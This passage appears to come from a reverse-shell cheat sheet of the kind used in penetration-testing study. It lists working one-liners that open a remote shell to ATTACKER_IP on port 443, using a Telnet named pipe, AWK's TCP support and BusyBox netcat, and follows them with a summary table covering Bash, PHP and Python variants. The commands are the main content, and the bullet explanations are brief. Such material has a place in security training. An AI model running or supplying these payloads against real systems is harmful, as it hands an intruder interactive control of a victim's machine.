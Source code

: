 

# ⚙️ Other Payloads

### 1. Telnet Reverse Shell
```
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```
- Creates named pipe.  
- Uses **Telnet** to connect attacker on port 443.  
- Executes shell through pipe.  



### 2. AWK Reverse Shell
```
awk 'BEGIN {s="/inet/tcp/0/ATTACKER_IP/443";
while(42){do{printf "shell>"|&s; s|&getline c; if(c){while((c|&getline)>0)print $0|&s; close(c);}}while(c!="exit") close(s);}}' /dev/null
```
- Uses AWK’s built-in TCP support.  
- Reads commands → executes → sends back results.  



### 3. BusyBox Reverse Shell
```
busybox nc ATTACKER_IP 443 -e sh
```
- Uses **BusyBox’s Netcat**.  
- Connects to attacker and executes `/bin/sh`.  



# 📊 Summary Table (Quick Reference)

| Language/Tool | Example Style                                | Key Idea                              |
|---------------|-----------------------------------------------|----------------------------------------|
| **Bash**      | `/dev/tcp/...` + file descriptors            | Uses TCP sockets + bash redirection.   |
| **PHP**       | `fsockopen()` + exec/system/shell_exec/etc.  | Opens socket, runs shell command.      |
| **Python**    | `socket + os.dup2()`                         | Connects, redirects IO, spawns bash.   |
| **Telnet**    | `telnet ATTACKER_IP port` + pipe             | Uses Telnet to connect.                |
| **AWK**       | `/inet/tcp/...`                              | Leverages AWK’s TCP capability.        |
| **BusyBox**   | `busybox nc ... -e sh`                       | Lightweight reverse shell with nc.     |



# ⚡ Key Takeaways
- Payload = script/command that exposes shell.  
- Many languages/tools support reverse shells.  
- Attackers pick based on what’s available on target system (Bash, PHP, Python, etc).
---
# 🌐 Web Shell
